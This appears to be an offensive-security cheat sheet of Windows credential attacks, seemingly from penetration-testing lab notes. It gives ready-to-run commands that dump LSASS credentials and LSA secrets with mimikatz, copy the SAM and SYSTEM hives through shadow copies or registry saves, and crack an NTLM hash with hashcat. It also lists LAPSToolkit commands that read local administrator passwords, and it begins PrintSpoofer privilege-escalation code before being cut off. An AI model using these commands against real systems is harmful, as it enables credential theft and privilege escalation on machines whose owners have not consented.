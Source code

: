 # Windows Credentials
## Local Windows Credentials
### Dump SAM FILE

```
C:\Windows\Tasks\mimikatz.exe "privilege::debug" "sekurlsa::minidump C:\Windows\Tasks\lsass.dmp" "sekurlsa::logonpasswords" "token::elevate" "lsadump::secrets" "token::elevate" "lsadump::lsa /patch" "exit"
```

```
wmic shadowcopy call create Volume='C:\'
vssadmin list shadows
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\offsec.corp1\Downloads\sam
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\offsec.corp1\Downloads\system

reg save HKLM\sam C:\users\offsec.corp1\Downloads\sam
reg save HKLM\system C:\users\offsec.corp1\Downloads\system


hashcat -a 0 ./hash ~/Tool\ Set.localized/wordlists/rockyou.txt -m 1000
32ed87bdb5fdc5e9cba88547376818d4:123456
```
###  Local Administrator Password Solution(LAPS)
LAPSToolkit.ps1
```Get-LAPSComputers ``` List Local Computer hostname and password
```Find-LAPSDelegatedGroups```  Find Group Name
```Get-NetGroupMember -GroupName "LAPS Password Readers"``` Get Group member 
`Get-LAPSComputers` Get LAPSComputers administrator user password
 
* LAPS Password Readers can access most host to reader local administrator password
### Elevation with Impersonation
#### Print Impersonation SID C#
```
using System;
using System.Runtime.InteropServices;
using System.Security.Principal;
using System.Text;

namespace PrintSpoofer
{
    public class Program
    {
        public static uint PIPE_ACCESS_DUPLEX = 0x3;
        public static uint PIPE_TYPE_BYTE = 0x0;
        public static uint PIPE_WAIT = 0x0;
        public static uint TOKEN_ALL_ACCESS = 0xF01FF;
        public static uint TOKENUSER = 1;
        public static uint SECURITY_IMPERSONATION = 2;
        public static uint TOKEN_PRIMARY = 1;
